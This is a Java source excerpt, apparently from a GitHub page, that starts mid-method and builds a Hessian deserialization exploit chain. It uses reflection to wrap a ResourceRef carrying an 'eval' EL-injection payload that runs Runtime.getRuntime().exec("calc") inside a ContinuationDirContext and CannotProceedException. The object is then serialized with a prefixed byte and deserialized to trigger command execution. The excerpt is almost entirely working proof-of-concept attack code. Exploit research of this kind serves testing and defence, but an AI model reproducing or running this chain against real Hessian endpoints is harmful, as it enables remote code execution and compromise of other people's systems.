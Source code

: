 ```java
        resourceRef.add(new StringRefAddr("forceString", "a=eval"));
        resourceRef.add(new StringRefAddr("a", "Runtime.getRuntime().exec(\"calc\")"));

        Class<?> ccCl = Class.forName("javax.naming.spi.ContinuationDirContext");
        Constructor<?> ccCons = ccCl.getDeclaredConstructor(CannotProceedException.class, Hashtable.class);
        ccCons.setAccessible(true);
        CannotProceedException cpe = new CannotProceedException();
        setFieldValue(cpe, "cause", null);
        setFieldValue(cpe, "stackTrace", null);

        cpe.setResolvedObj(resourceRef);

        setFieldValue(cpe, "suppressedExceptions", null);
        DirContext ctx = (DirContext) ccCons.newInstance(cpe, new Hashtable<>());

        JSONObject jo = new JSONObject();
        jo.put("test", ctx);

        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        Hessian2Output out = new Hessian2Output(baos);
        baos.write(67);
        out.getSerializerFactory().setAllowNonSerializable(true);
        out.writeObject(jo);
        out.flushBuffer();

        ByteArrayInputStream bais = new ByteArrayInputStream(baos.toByteArray());
        Hessian2Input input = new Hessian2Input(bais);
        input.readObject();
    }

    public static void setFieldValue ( final Object obj, final String fieldName, final Object value ) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        field.set(obj, value);
    }
    public static Field getField ( final Class<?> clazz, final String fieldName ) throws Exception {
        try {
            Field field = clazz.getDeclaredField(fieldName);
            if ( field != null )
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
}
```
